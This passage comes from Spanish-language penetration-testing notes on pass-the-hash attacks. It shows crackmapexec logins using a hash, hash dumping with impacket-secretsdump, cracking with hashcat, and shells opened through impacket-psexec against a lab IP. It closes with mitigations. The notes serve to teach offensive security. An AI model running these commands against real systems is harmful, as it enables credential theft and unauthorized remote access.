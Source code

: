 ![Ejemplo crackmapexec](images/crackmapexec.png)

O bien, con el hash obtenido se puede loguear a la cuenta igualmente usando `crackmapexec`.

```bash
crackmapexec {protocolo} {ip/rango} -u {usuario} -H {hash} --local-auth
```

Ejemplo:

![Obtención de hashes con metasploit](images/crackmapexec-hashdump.png)

![Pass The Hash](images/crackmapexec-passhash.png)

##### Dumpeo de hashes

Haciendo uso de `impacket-secretsdump` se puede loguear en la cuenta y máquina objetivo para obtener los hashes existentes.

![Secretsdump](images/secretsdump.png)

Posteriormente ejecutando `hashcat` se puede buscar crackear la colección de hashes obtenidos indicándolo en las banderas.

```powershell
.\hashcat.exe -m {hashmode} {archivo de hashes} {diccionario}
```

![Cracking de hashes con hashcat](images/hashcat.png)

Para buscar obtener una shell se puede usar `impacket-psexec`, `impacket-smbexec` o `impacket-wmiexec` pasándole el hash obtenido para autenticarse con él en lugar de la contraseña.

Ejemplo:

```bash
impacket-psexec Gwyn:@192.168.111.145 -hashes {valor}
```

TODO: Agregar imagen

##### Mitigaciones

Es difícil de prevenir por completo, pero se le puede hacer más difícil a un atacante:

- Limitar reusos en las cuentas:
  - Evitar reusar la contraseña del administrador local.
  - Deshabilitar las cuentas de Guest y Administrator.
  - Limitar al administrador local (privilegios mínimos).
- Usar contraseñas fuertes:
  - Entre más largas mejor (mayor a 14 caracteres).
  - Evitar usar palabras comúnes.
  - Oraciones largas.
- Privilege Access Management (PAM)
  - Check out/in cuentas sensibles cuando sea necesario.
  - Rotar contraseñas automáticamente en el check out y check in.
